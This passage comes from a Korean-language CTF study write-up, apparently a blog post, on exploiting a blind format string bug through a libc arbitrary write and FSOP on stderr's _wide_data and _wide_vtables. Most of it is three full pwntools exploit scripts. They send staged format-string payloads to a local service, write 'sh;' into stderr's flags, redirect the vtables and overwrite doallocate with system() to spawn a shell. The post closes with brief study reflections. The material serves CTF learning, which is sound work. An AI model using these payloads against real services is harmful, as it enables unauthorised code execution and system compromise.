그리고 vtables의 doallocbuf를 실행하기 위한 조건인<br>
fp->_wide_data->_IO_buf_base = 0 <br>
총 두 개의 조건을 모두 만족시켜야 되며,

그러기 위해선, Stderr의 _wide_data 값을 지정해주어야 한다.<br>
즉, _wide_data 요소와 Libc_start_main간의 오프셋을 구해야 하므로,<br>
구해보면 오프셋은 0x1da3b6인걸 알 수 있었다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da3b6를 %c 문법으로 출력한후, Vtables가 있는 $0x3b에 <br>
작성함으로써, Vtables이 아닌, _wide_data이 스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

또한, _wide_data를 바꾼 이후엔,<br>
_wide_data의 요소인 _wide_vtables를 립씨 안 아무 주소로 바꾸고,<br>
이후 다시 _wide_vtables의 요소인 doallocbuf 요소를 시스템 함수로 바꾸어,<br>
익스플로잇을 진행할것이기에,

결국 _IO_write_base, _IO_buf_base 요소에 0이 들어가면서,<br>
_wide_vtables에는 Libc주소가 들어가야한다.

또한 그러기 위해선, 위 조건을 모두 만족시키는 주소를 찾아야하는데,<br>
디버깅을 직접해서 립씨 세그먼트를 둘러보면 main_arena+2120 쪽에<br>
쓸만한 주소가 존재하는걸 알 수 있다.


이제 쓸만한 립씨 주소를 찾았으니, 오프셋을 계산해보면,<br>
오프셋은 0x1da13e인걸 알 수 있었다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da13e를 %c 문법으로 출력한후, _wide_data가 있는 $0x21에 <br>
작성함으로써, main_arena+2120가 덮어지도록 할 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

아래는 익스플로잇 코드이다
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da33e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr to Stderr->write_ptr
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x21}$n".encode()
# write 0x99 at writeptr
p.sendline(payload)
pause()


payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3ee-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->writeptr to Stderr->vtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1d805e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->vtables->normal to Stderr->vtables->_IO_wfile_jumps
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3b6-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->vtables to Stderr->widedata
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da13e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata to Stderr->(main_arena+2120)
p.sendline(payload)
pause()
```
위 코드를 직접 디버깅하며, 64분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1, Libc 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는 걸 알 수 있었다.


## Libc AAW와 FSOP 시나리오 - 익스플로잇 5 (System 1)
이제 정상적으로 DOALLOC 함수가 실행되었으면, 이후 플래그 검사와 함께<br>
fp->_wide_data->_wide_vtables->_doallocate를 실행할 것이다.<br>
또한 이 _do_allocate를 실행할땐, 영역 검사가 없어서 시스템 함수를<br>
끼워넣을수 있다. 일단 그러기 위해선 _wide_vtables를<br>
_wide_vtables->_doallocate로 들어갔을때 Libc주소가<br>
나오는 Libc안 주소에 넣어줘야한다.

일단 그러려면 첫번째로 $0x3b를 조작해 Stderr->_wide_data를<br>
Stderr->Stderr->_wide_data->_wide_vtables 주소로 바꾸어줘야한다.<br>
또한 바꾸어주기 위해선 오프셋이 필요하기에, 간단히 계산을 해보면,


오프셋은 0x1da21e인걸 알 수 있었다.

이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da21e를 %c 문법으로 출력한후, _wide_data가 있는 $0x3b에 <br>
작성함으로써, _wide_data가 아닌, _wide_vtables이 스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

이제 $0x21의 주소는 Stderr->_wide_data->_wide_vtables일 것이고,<br>
그 안에 내용은 앞에서 말했다시피 doallocbuf 요소로 이동했을때,<br>
Libc가 있는 주소를 정해줘야한다. 일단 그러한 주소를 찾기 위해,<br>
Libc를 둘러보다보면, Stderr위에있는 _nl_global_locale 밑에 <br>
Libc 주소들이 몰려있는걸 알 수 있다.<br>
이중, _nl_global_locale+208 부분을 doallocate로 보고, <br>
doallocate 요소 오프셋을 뺀후, 그 주소와 Libc_start_main간의 오프셋을 구해보면<br>
오프셋은 0x1da25e인걸 알 수 있었다


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da25e를 %c 문법으로 출력한후, _wide_vtables가 있는 $0x21에 <br>
작성함으로써, _nl_global_locale+208가 덮어지도록 할 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

아래는 익스플로잇 코드이다
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da33e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr to Stderr->write_ptr
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x21}$n".encode()
# write 0x99 at writeptr
p.sendline(payload)
pause()


payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3ee-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->writeptr to Stderr->vtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1d805e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->vtables->normal to Stderr->vtables->_IO_wfile_jumps
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3b6-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->vtables to Stderr->widedata
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da13e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata to Stderr->(main_arena+2120)
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da21e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->(main_arena+2120) to Stderr->(main_arena+2120)->widevtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da25e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata->widevtables to Stderr->widedata->widevtables->(_nl_global_locale+208-104)
p.sendline(payload)
pause()
```
위 코드를 직접 디버깅하며, 64분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1, Libc 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는 걸 알 수 있었다.


## LIBC AAW와 FSOP 시나리오 - 익스플로잇 6 (System 2)
이제 Stderr->_wide_data->_wide_vtables->doallocate 요소에 <br>
Libc 주소가 존재하고, 이미 doallocate를 실행하기 위한<br>
모든 조건은 만족시켰고, 인자도 모두 설정하였으니, 그냥 doallocate의<br>
하위 4바이트를 System함수로 덮어씌워서 쉘을 획득 할 수 있다.

일단 그러려면 첫번째로 $0x3b를 조작해<br>
Stderr->_wide_data->_wide_vtables를<br>
Stderr->_wide_data->_wide_vtables->doallocate 주소로<br>
바꾸어줘야한다. 또한 바꾸어주기 위해선 Libc_start_main 간의<br>
오프셋이 필요하기에, 간단히 계산을 해보면,

오프셋은 0x1da2c6인걸 알 수 있었다.

이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da2c6를 %c 문법으로 출력한후, _wide_vtables가 있는 $0x3b에 <br>
작성함으로써, _wide_data가 아닌, doallocate가 스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

이제 $0x21의 주소는 Stderr->_wide_data->_wide_vtables->doallocate일 것이고,<br>
그 안에 내용은 간단히 시스템 함수의 주소를 적어주면 된다.<br>
일단 그러기 위해선 오프셋이 필요하기에, 적당히 오프셋을 계산해보면?<br>
오프셋은 0x2e586인걸 확인 할 수 있었다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x2e586를 %c 문법으로 출력한후, _wide_vtables가 있는 $0x21에 <br>
작성함으로써, System함수가 덮어지도록 할 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

아래는 익스플로잇 코드이다.
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da33e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr to Stderr->write_ptr
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x21}$n".encode()
# write 0x99 at writeptr
p.sendline(payload)
pause()


payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3ee-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->writeptr to Stderr->vtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1d805e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->vtables->normal to Stderr->vtables->_IO_wfile_jumps
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3b6-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->vtables to Stderr->widedata
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da13e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata to Stderr->(main_arena+2120)
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da21e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->(main_arena+2120) to Stderr->(main_arena+2120)->widevtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da25e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata->widevtables to Stderr->widedata->widevtables->(_nl_global_locale+208-104)
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da2c6-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->widedata->widevtables to Stderr->widedata->widevtables->doalloc
p.sendline(payload)
pause()
payload = f"%{0x2e586}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->widedata->widevtables->doalloc to Stderr->widedata->wide_vtables->system
p.sendline(payload)

p.interactive()
```

이제 모든 익스가 완료되었으니, 직접 가챠를 돌려서 <br>
64분의 1확율로 스택,립씨의 양수 + 0.5바이트가 0x3인 <br>
확율을 뚫어 익스에 성공한후, 플래그를 출력해보면?

플래그를 잘 출력하는것을 확인할수 있었다!

# 스터디 후기
이번 BFSB를 일주일동안 공부하면서 처음으로 FSB에 대해서<br>
엄청 깊게 공부하게 되었다. 특히, 대부분의 기법은 아는 기법이었지만,<br>
0.5바이트 가챠와, *$문법을 통한 가챠 기법들은 처음 들어보는 기법이어서,<br>
꽤 유익했던 공부였던것 같다. 특히, 64분의 1확율로 익스에 성공하는터라,<br>
디버깅하는 시간보다 가챠돌리는 시간 때문에 훨씬 익스하는데 많은 시간이<br>
소요되었던 것 같다. 그래도 FSB에 대해서 깊게 배웠으니 좋은 경험을 한 것같다!